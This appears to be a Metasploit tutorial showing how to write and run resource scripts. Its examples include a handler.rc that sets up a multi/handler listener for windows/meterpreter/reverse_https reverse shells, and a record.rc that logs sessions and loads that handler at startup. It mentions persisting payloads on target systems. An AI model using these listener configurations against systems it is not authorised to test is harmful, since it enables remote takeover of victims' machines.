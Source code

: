 <br />

The next example show us how to use msfconsole 'makerc' core command to write our resource script.
```
   kali > msfconsole
   msf > version
   msf > makerc /root/version.rc
```
**[in msfconsole]::Run the script::** `resource /root/version.rc`

<br /><br />

<blockquote>In the next example we are going to write one handler resource file, because there are times when we 'persiste' our payload in target system and a few days later we dont remmenber the handler configurations set that day, thats one<br />of the reasons rc scripting can be usefull, besides automating the framework (erb scripting can access metasploit api).</blockquote>

Open your text editor and copy/past the follow metasploit commands to it, save file and name it as: **handler.rc**
```
   use exploit/multi/handler
   set PAYLOAD windows/meterpreter/reverse_https
   set ExitOnSession false
   set LHOST 192.168.1.71
   set LPORT 666
   exploit
```
**[in terminal]::Run the script::** `msfconsole -r /root/handler.rc`

<br />

The next example show us how to use msfconsole makerc core command to write our resource script.
```
   kali > msfconsole
   msf > use exploit/multi/handler
   msf exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_https
   msf exploit(multi/handler) > set ExitOnSession false
   msf exploit(multi/handler) > set LHOST 192.168.1.71
   msf exploit(multi/handler) > set LPORT 666
   msf exploit(multi/handler) > exploit
   msf exploit(multi/handler) > makerc /root/handler.rc
```
**[in msfconsole]::Run the script::** `resource /root/handler.rc`

<br /><br />

<blockquote>The next resource script allow us to record msfconsole activity under logfile.log and commands.rc<br />It also displays database information sutch as: framework version, active sessions in verbose mode, loads my auxiliary scripts local directory into msfdb (loading my modules) and executes the rc script handler.rc at msfconsole startup.</blockquote>

Open your text editor and copy/past the follow metasploit commands to it, save file and name it as: **record.rc**
```
   spool /root/logfile.log
   loadpath /root/msf-auxiliarys
   version
   sessions -v
   resource /root/handler.rc
   makerc /root/commands.rc
```
**[in terminal]::Run the script::** `msfconsole -r /root/record.rc`
